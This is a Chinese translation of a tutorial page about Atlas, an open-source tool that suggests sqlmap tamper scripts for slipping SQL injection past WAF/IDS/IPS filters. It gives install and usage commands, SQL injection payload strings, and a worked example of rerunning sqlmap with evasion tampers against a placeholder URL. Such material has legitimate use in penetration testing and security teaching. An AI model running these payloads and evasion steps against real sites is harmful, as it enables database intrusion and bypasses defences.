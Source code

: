 # atlas–建议快速篡改 sqlmap

> 原文：<https://kalilinuxtutorials.com/atlas/>

Atlas 是一个开源工具，可以建议 sqlmap 篡改以绕过 WAF/IDS/IPS，该工具基于返回的状态代码。

![](img/766cde23d5f1e1b9f97032bea47f9f6e.png)

## **图集安装**

```
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py
```

**也可阅读[dex 2 jar——与 Android 协同工作的工具。dex & Java。类文件](https://kalilinuxtutorials.com/dex2jar-android-java/)**

## **用法****T3`T5`**

```
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --dbms=mysql --random-agent -v
```

 `## **截图**

![](img/d968ec4a459314664d6ad3df714844b6.png)

## **例子**

1.  运行 SQLMap:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```

![](img/47eef479985d5f9e13712b65655c3c70.png)

`**Price_ASC') AND 8716=4837 AND ('yajr'='yajr**`被 WAF/IDS/IPS 屏蔽，现在用 Atlas 尝试:

```
$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```

![](img/fe0192231f3f7cd68eb4798e694f33b2.png)

此时:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/m4ll0k/Atlas)``